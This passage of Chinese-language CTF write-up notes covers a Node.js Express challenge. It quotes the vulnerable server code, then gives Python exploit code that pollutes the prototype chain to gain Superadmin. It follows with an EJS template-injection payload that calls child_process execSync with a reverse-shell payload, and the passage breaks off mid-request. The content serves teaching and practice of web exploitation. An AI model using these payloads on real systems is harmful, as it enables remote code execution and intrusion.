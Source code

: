 		  app.all('/create', (req, res) => {
		    res.type('html');
		    if (!req.body.name || req.body.name === undefined || req.body.name === null){
		      res.send("please input name");
		    }else {
		      if (Super['userrole'] === 'Superadmin') {
		          res.render('index', req.body);
		        }else {
		          if (!safecode(req.body.name)) {
		              res.send("你在做什么？快停下！！！")
		          }
		          else{
		              res.render('index', {name: req.body.name});
		          }
		        }
		    }
		  });
		  
		  app.get('/',(req, res) => {
		      res.type('html');
		      var token = jwt.sign({'user':'guest'},jwt_secret,{ algorithm: 'HS256' });
		      res.cookie('auth ',token);
		      res.end('Only admin can get source in /source');
		  
		  });
		  
		  app.listen(3000, () => console.log('Server started on port 3000'));
		  ```
	- 分析源码
		- `/code`: [[CTFWEB/JS/原型链污染]]
		- `/create`: [[CTFWEB/JS/EJS的原型链污染]] RCE
	- 原型链污染
		- ```python
		  # url = "http://127.0.0.1:3000"
		  url = "https://dehxljmgktwjty8qtjwd0mlnh.node.game.sycsec.com"
		  
		  r = base_post(
		      url + "/code",
		      json={
		          "constructor": {
		              "prototype": {
		                  "userrole": "Superadmin"
		              }
		          }
		      }
		  )
		  print(r.text)
		  ```
	- EJS RCE
		- 控制`escape`
			- 需要让`client`为真
			- ```python
			  ejs_escape = """\
			  function escapeXMLToString114() {
			    return Function.prototype.toString.call(this) + ';\\n' + escapeFuncStr;
			  }
			  console.log('114514ejs');
			  process.mainModule.require('child_process').execSync(CMD);
			  \
			  """.replace("CMD", repr(reverse_shell_payload))
			  r = base_post(
			      url + "/create",
			      json={
			          "name": "global",